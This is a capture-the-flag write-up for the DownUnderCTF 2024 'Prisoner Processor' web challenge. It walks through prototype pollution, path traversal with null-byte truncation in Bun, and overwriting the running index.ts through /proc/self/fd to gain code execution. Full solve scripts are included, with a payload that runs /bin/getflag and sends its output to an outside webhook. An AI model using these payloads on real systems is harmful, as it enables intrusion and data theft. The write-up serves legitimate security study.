



#### DownUnderCTF2024/web
# Prisoner Process
by Arc'blroth ft. Aplet123

_"In hindsight the PP should have been obvious&trade;"_

> The bug had a microservice for conveting JSON to YAML to assist with processing prisoners it has captured.
>
> Can you try to find a way to hack this microservice so we can get an initial foothold into the bug's prison system?
>
> Author: ghostccamm
>
> [📥 prisoner-process.zip](https://github.com/DownUnderCTF/Challenges_2024_Public/raw/main/web/prisoner-processor/publish/prisoner-processor.zip)

This was the hardest web DownUnderCTF had to throw at us - and it surely ended up being complex! Still though, I enjoyed the challenge the whole way through. After all, another chance to dunk on Bun is always a great time...

## PP

```Dockerfile
# src/Dockerfile

FROM base AS release
RUN useradd -m -u 6969 ghostccamm
COPY --from=flagbuild /tmp/getflag /bin/getflag
COPY flag.txt /home/ghostccamm/flag.txt
RUN chown ghostccamm:ghostccamm /bin/getflag && \
        chown ghostccamm:ghostccamm /home/ghostccamm/flag.txt && \
        chmod 400 /home/ghostccamm/flag.txt && \
        chmod u+s /bin/getflag
```

Unlike the other web challenges, our goal here is not to read a file on the server, but rather to run the executable `/bin/getflag` - we need a RCE rather than an LFI.

Besides the Dockerfile, the second thing I noticed was the script `/home/bun/start.sh`, which is used as the entrypoint to the container:

```sh
#!/bin/bash

cd /app;
# Loop in case the app crashes for some reason ¯\_(ツ)_/¯
while :; do
    for i in $(seq 1 5); do
        bun run start;
        sleep 1;
    done
    # Okay for some reason something really goofed up...
    # Restoring from backup
    cp -r /home/bun/backup/app/* /app;
done
```

This. Is. So. Sus. There is no reason why you'd ever need to restart a server in-container, let alone "restore from backup" in-container! We'll keep this in mind as we analyze the handout further.

The actual Typescript source for the microservice is pretty simple: it's a REST API powered by the [Hono](https://hono.dev/) web framework running on the [Bun](https://bun.sh/) runtime. Two endpoints are exposed: `/examples`, which returns a list of "signed" JSON objects, and `/convert-to-yaml`, which converts a "signed" JSON file with a valid signature into a YAML file.

Here's an example of one of the signed JSON objects:
```json
{
  data: {
    "signed.name": "jeff",
    "signed.animalType": "emu",
    "signed.age": 12,
    "signed.crime": "assault",
    "signed.description": "clotheslined someone with their neck",
    "signed.start": "2024-03-02T10:45:01Z",
    "signed.release": "2054-03-02T10:45:01Z"
  },
  signature: "59612119c601cf1459cb96df5cd01fc5b8525800de4051f321d9e0a014073bcd"
}
```

The signing logic for these is somewhat sus: only fields starting with `signed.` are included in the signature:

```ts
const getSignedData = (data: any): any => {
  const signedParams: any = {};
  for (const param in data) {
    if (param.startsWith(SIGNED_PREFIX)) {
      const keyName = param.slice(SIGNED_PREFIX.length);
      signedParams[keyName] = data[param];
    }
  }
  return signedParams;
};
```

This means that we can take any of the "example" signed files and add almost any field we want without invalidating the signature. But more than that:

> there's some low-impact protopol here
>
> ~ Aplet123

If we pass in a JSON object with a `__proto__` key, we can also modify the prototype of the returned signed data (which makes sense given this challenge's name).

So now that we have a polluted signed JSON object, what can we do with it?

```ts
app.post('/convert-to-yaml',
  bodyLimit({
    maxSize: 50 * 1024, // 50kb limit
  }),
  zValidator('json', requestSchema),
  (c) => {
    try {
      const body = c.req.valid('json');
      const data = body.data;
      const signedData = getSignedData(data)
      const signature = body.signature;
      if (!hasValidSignature(signedData, signature)) {
        return c.json({ msg: "signatures do no match!" }, 400);
      }
      const outputPrefix = z.string().parse(signedData.outputPrefix ?? "prisoner");
      const outputFile = `${outputPrefix}-${randomBytes(8).toString("hex")}.yaml`;
      if (convertJsonToYaml(data, outputFile)) {
        return c.json({ msg: outputFile });
      } else {
        return c.json({ msg: "failed to convert JSON" }, 500);
      }
    } catch (error) {
      console.error(error);
      return c.json({ msg: "why you send me a bad request???" }, 400);
    }
  }
);
```

`POST /convert-to-yaml` dumps the input file into `/app-data/yamls/${outputPrefix}-${randomData}.yaml`, which immediately triggers my LFI alarm bells. Using the prototype pollution from earlier and the fact that for-in loops ignore prototype fields, setting `data.__proto__ = { "outputPrefix": "../../blah" }` lets us write a file to any folder!

But there's still a couple of problems we have to solve:

```ts
const BANNED_STRINGS = [
  "app", "src", ".ts", "node", "package", "bun", "home", "etc", "usr", "opt", "tmp", "index", ".sh"
];

// -- snip --

const convertJsonToYaml = (data: any, outputFileString: string): boolean => {
  if (checkIfContainsBannedString(outputFileString)) {
    return false
  }
  const filePath = `${OUTPUT_YAML_FOLDER}/${outputFileString}`;
  const outputFile = Bun.file(filePath);
  // Prevent accidental overwriting of app files
  if (existsSync(outputFile)) {
    return false
  }

  try {
    const yamlData = stringify(data);
    Bun.write(outputFile, yamlData);
    return true;
  } catch (error) {
    console.error(error)
    return false;
  }
};
```

We can't write any filename with a "banned keyword," nor can we overwrite existing files, nor can we control the full filename.

Or can we?

## Bun is a terrible runtime, part 1

> why does bun also have existsSync
>
> is this node compat
>
> ~ Aplet123

> wait sorry what the fuck does bun.file do
>
> does it not open the file until after you call a function on it
> 
> who is opening files they're not going to use
>
> ~ Aplet123


_foreshadowing for the horrors ahead..._

Trying to get Bun to \*actually\* run code turned out to be a herculean task (!), but we quickly discovered that Bun's race for speed perhaps left sanity in the dust:



It turns out Bun is vulnerable to the ages-old trick of adding a null byte to cut off the rest of a c-string! For comparison, Deno rightfully throws an exception on this edge case:


Can we also bypass the `existsSync` check with this?



Sure looks like it! ... or actually, wait. Does `existsSync` just not work with Bun files at all?


Welp, it turns out that that check was a red herring! And I thought my Typescript interpreter was breaking...


So at this point, we can overwrite any arbitrary filepath with valid YAML content! Now all we have to do is to overwrite some file in the loading chain, crash the Bun process, wait for `start.sh` to run our injected code, and win.

Unfortunately, that's a bit easier said than done...

## `/proc` saves the day

> if we can overwrite a json file with valid json that's pretty winning
>
> ~ Aplet123

My first idea was to try to overwrite `package.json` with a custom script entry. Unfortunately:

- the `yaml` package doesn't cheese and output JSON (yes, YAML ⊃ JSON)
- the `yaml` package is also well-coded and uses `Symbol`s for internal state
- while PNPM supports `package.yaml` (!) Bun has refused to support it ([oven-sh/bun#7468](https://github.com/oven-sh/bun/issues/7468))

Another way to inject code into Bun before main is by defining a [preload script](https://bun.sh/docs/runtime/bunfig#preload) in `bunfig.toml` (haha funny name). Unfortunately, the bunfig can only be written in TOML or JSON, not YAML...

Writing to the directory with the source code - `/app` - also seems problematic at first, since that's a banned keyword! Luckily, we have the full cursedness of the `/proc` filesystem avaliable to us (foreshadowing). For example, `/proc/self/cwd` in the Bun process symlinks to `/app`. But most of the filenames we're interested in are _also_ banned, so...

..can we maybe hijack a `/proc/self/fd`?

```
root@1651d1ec59ad:/home/bun/app# strace bun test.ts 2>&1 | grep "open"
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libpthread.so.0", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libdl.so.2", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libm.so.6", O_RDONLY|O_CLOEXEC) = 3
open("/proc/sys/vm/overcommit_memory", O_RDONLY) = 3
openat(AT_FDCWD, "/home/bun/app/bunfig.toml", O_RDONLY) = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "test.ts", O_RDONLY)   = 3
openat(AT_FDCWD, "/dev/urandom", O_RDONLY) = 3
openat(AT_FDCWD, "/proc/self/maps", O_RDONLY|O_CLOEXEC) = 4
openat(AT_FDCWD, "/sys/devices/system/cpu/online", O_RDONLY|O_CLOEXEC) = 4
openat(AT_FDCWD, "/", O_RDONLY|O_CLOEXEC|O_DIRECTORY) = 4
openat(AT_FDCWD, "/home/", O_RDONLY|O_CLOEXEC|O_DIRECTORY) = 5
openat(AT_FDCWD, "/home/bun/", O_RDONLY|O_CLOEXEC|O_DIRECTORY) = 6
openat(AT_FDCWD, "/home/bun/app/", O_RDONLY|O_CLOEXEC|O_DIRECTORY) = 7
openat(7, "package.json", O_RDONLY)     = 8
...
```

Hmm... but both package.json and the script itself are opened `O_RDONLY`, so this probably won't work...

> does bash do the thing where it doesn't interpret the next line until it has to run it
> 
> ~ Arc'blroth

Bash always opens its script with fd 255, so if we could write to `/proc/1/fd/255`, we'd be able to overwrite the `start.sh` script from earlier:

```sh
#!/bin/bash

# cd /app;
# Loop in case the app crashes for some reason ¯\_(ツ)_/¯
while :; do
    for i in $(seq 1 5); do
        python -c 'print("echo pwned\n" * 10)' > "/proc/$$/fd/255"
        sleep 1;
    done
    # Okay for some reason something really goofed up...
    # Restoring from backup
    echo cp # cp -r /home/bun/backup/app/* /app;
done
```

Unfortunately, it turns out that for some reason Bun can't write to Bash's fds, despite the fact that both processes are running under the same user. StackOverflow lied to me!

But if I can't trust StackOverflow, surely I can trust the one and only Aplet123! Aplet tells me though that you can still write to a "read-only" fd, since it's just a symlink. So what if we try writing to `/proc/self/fd/3` (`index.ts`) anyways?

```ts
// solve.ts

const remote = "http://localhost:1337"

const example = (await (await fetch(`${remote}/examples`)).json()).examples[0]

const payload0 = structuredClone(example)
payload0.data = {
    "sus": `await fetch("{arc_secret_flag_webhook}"+(await (await import("bun"))["$"]\`/bin/getflag\`.text()))`,
    "signed.__proto__": { "outputPrefix": "../../proc/self/fd/3\0" },
    ...payload0.data,
}
await fetch(`${remote}/convert-to-yaml`, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(payload0)
})
```

```
arc@blroth:~/ctfs/prisoner-process$ deno run solve.ts 
arc@blroth:~/ctfs/prisoner-process$ docker exec -it prisoner_processor /bin/bash
bun@1758f8776225:/app$ cat src/index.ts 
sus: await fetch("{arc_secret_flag_webhook}"+(await (await
  import("bun"))["$"]`/bin/getflag`.text()))
signed.__proto__:
  outputPrefix: "../../proc/self/fd/3\0"
signed.name: jeff
signed.animalType: emu
signed.age: 12
signed.crime: assault
signed.description: clotheslined someone with their neck
signed.start: 2024-03-02T10:45:01Z
signed.release: 2054-03-02T10:45:01Z
```

OMG! IT WORKS!

So now, all we have to do is to crash Bun...

## Bun is a terrible runtime, part 2

Take one look at Bun's [list of issues](https://github.com/oven-sh/bun/issues) and you'll see segfaults galore. I'm personally amazed - I thought Zig was a memory-safe language!

Alas, we need to crash Bun using only an arbitrary file write. And it turns out this is a _lot_ harder than it should be...

> does invalid file write not crash
>
> ~ Aplet123

> nope
>
> ~ Arc'blroth

> wow bun.write makes intermediate dirs implicitly
>
> that's wild
>
> does bun just like
>
> not error on uncaught promises
>
> ~ Aplet123

> nope
>
> ~ Arc'blroth

```
$ bun -e 'const f = Bun.file("/etc/passwd/x"); Bun.write(f, "chicken"); await Bun.sleep(1000); console.log("a")'
a
$ echo $?
0
```

> i hate this runtime
>
> ~ Arc'blroth

> :D
> 
> bun is so user friendly they even don't error for you!
>
> <https://github.com/oven-sh/bun/discussions/1006>
>
> ~ Aplet123

A few iterations of head-banging later, we arrived at 

```
$ bun -e 'Bun.write("/proc/self/map_files/0-1000", "chicken"); await Bun.sleep(1000); console.log("a")' || echo failed
```

which _does_ error, print a message, and exit with a nonzero status!

So finally, we can whip up a YAML-TS polyglot, crash Bun (it deserves it), and solve:

```ts
// solve.ts

const remote = "https://web-prisoner-processor-06d3a48464e3f51f.2024.ductf.dev"

const example = (await (await fetch(`${remote}/examples`)).json()).examples[0]

const payload0 = structuredClone(example)
payload0.data = {
    "sus": `await fetch("{arc_secret_flag_webhook}?"+(await (await import("bun"))["$"]\`/bin/getflag\`.text()));await new Promise(()=>{})/*`,
    "signed.__proto__": { "outputPrefix": "../../proc/self/fd/3\0" },
    ...payload0.data,
    "end": "*///"
}
let res0 = await fetch(`${remote}/convert-to-yaml`, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(payload0)
})
console.log(await res0.text())

const payload1 = structuredClone(example)
payload1.data = {
    "sus": `surely this will cause a crash`,
    "signed.__proto__": { "outputPrefix": "../../proc/self/map_files/0-1000\0" },
    ...payload1.data,
}
let res1 = await fetch(`${remote}/convert-to-yaml`, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(payload1)
})
console.log(await res1.text())
```


Wooo!

> i hate bun
>
> i hate bun
>
> i hate bun
>
> i hate bun
>
> ~ Arc'blroth

> increble
>
> ~ Aplet123
